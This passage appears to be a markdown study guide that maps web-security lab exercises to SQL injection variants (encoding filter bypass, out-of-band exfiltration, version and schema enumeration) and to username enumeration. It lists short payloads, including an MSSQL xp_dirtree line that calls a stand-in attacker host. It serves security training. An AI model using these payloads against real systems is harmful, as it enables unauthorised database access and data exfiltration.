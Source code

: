 - **Product Filter → XML-encoded input**

    - **Vulnerability:** SQL Injection – Filter Bypass via Encoding
        - **Description:** Bypass input filters using UTF-8 or XML-encoded characters.
        - **Payloads:**
            - `%27` for `'`
            - `&#x27;` for `'`
        - **Relevant Labs:**
            - SQL injection with filter bypass via XML encoding

- **Tracking Cookie / Header Field**
    - **Vulnerability:** SQL Injection – Out-of-Band (OOB) Interaction
        - **Description:** Use database features to trigger DNS or HTTP requests to exfiltrate data.
        - **Payloads:**
            - Oracle: `SELECT extractvalue(xmltype('<!DOCTYPE ...')...)`
            - MSSQL: `; exec xp_dirtree('//attacker.com/a')--`
        - **Relevant Labs:**
            - Blind SQL injection with out-of-band interaction
            - Blind SQL injection with out-of-band data exfiltration

- **Database-Specific Enumeration**
    - **Vulnerability:** SQL Injection – DB Discovery
        - **Description:** Query system tables to fingerprint DB type and version.
        - **Payloads (Examples):**
            - MySQL/MSSQL: `SELECT @@version`
            - Oracle: `SELECT banner FROM v$version`
        - **Relevant Labs:**
            - SQL injection attack, querying the database type and version on MySQL and Microsoft
            - SQL injection attack, querying the database type and version on Oracle

- **Database Contents**
    - **Vulnerability:** SQL Injection – Schema Enumeration
        - **Description:** List databases and tables through `information_schema` or Oracle's data dictionary.
        - **Payloads:**
            - MySQL: `SELECT table_name FROM information_schema.tables`
            - Oracle: `SELECT table_name FROM all_tables`
        - **Relevant Labs:**
            - SQL injection attack, listing the database contents on non-Oracle databases
            - SQL injection attack, listing the database contents on Oracle

### 02 - Authentication

- **Login Form → username parameter**
    - **Vulnerability:** Username Enumeration – Different Responses
        - **Description:** The application returns different responses for valid and invalid usernames, allowing enumeration.
        - **Techniques:**
            - Burp Intruder: Detect length or content differences.
            - Hydra: Use response keyword matching.
            - Turbo Intruder: Grep response for presence/absence of specific phrases.
        - **Relevant Labs:**
            - Username enumeration via different responses
            - Username enumeration via subtly different responses
